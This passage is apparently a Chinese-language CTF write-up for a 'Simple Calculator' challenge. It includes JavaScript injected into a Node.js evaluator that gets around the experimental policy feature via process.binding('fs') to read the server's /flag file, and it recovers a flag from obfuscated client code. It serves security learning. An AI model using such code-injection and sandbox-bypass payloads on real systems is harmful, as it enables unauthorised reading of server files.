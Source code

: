 输入计算器后获得 Flag：


```html
<script>
  const flag = (() => {
    const FLAG = `flag{reg3x_byp4ss_made_easy}`
    return 'no geek, no flag'
  })()
</script>
```

对于「Node.JS」后端，猜测需要读取服务器上的 `/flag` 文件内容。将下面这行代码转义后输入计算器（注意到 `runner.js` 会帮我们等待 `Promise`）：



```javascript
import("fs").then(fs => fs.readFileSync("/flag", "utf-8"))
```

发现结果为 HTTP 500。阅读报错信息，得知 `runner.js` 进程启用了 [Node.js 的 policy 功能](https://nodejs.org/docs/latest-v19.x/api/permissions.html)，基本上禁止使用 `import`。

> policy 是一个实验性功能，看起来它并不能阻止所有的不安全 `import`，比如[这则 issue](https://github.com/nodejs/node/issues/45359)：
>
> [![](assets/nodejs-issue.png)](https://github.com/nodejs/node/issues/45359)
>
> 不过 issue 中提出的 `module.require` 对本题没有帮助，因为 `runner.js` 是一个 ECMAScript 模块，没有 `module` 全局变量。

不使用 `import`，可以直接通过更底层的内部模块 [`process.binding("fs")`](https://stackoverflow.com/q/24042861/7550087) 来操作文件系统。将下面的代码转义，输入计算器后获得第二个 Flag：



```javascript
(() => {
  const { open, read, close } = process.binding("fs");
  const fd = open("/flag", 0, 0, 0, 0);
  const buf = Buffer.alloc(999);
  read(fd, buf, 0, 999, 0, 0, 0);
  close(fd, 0, 0);
  return buf.toString();
})()
```

还缺少 Flag 1。重新检查「Simple Calculator」网页，发现右上角有一个「Premium」按钮，点击后到达 `premium.html` 网页。检查源代码，得到混淆过的 `premium.js`。将代码格式化，发现其中若干变量名没有被混淆，包括 `flag0` 变量。提取并执行 `flag0` 相关的代码（原文件第 45954 到 46217 字符），得到 Flag 1。

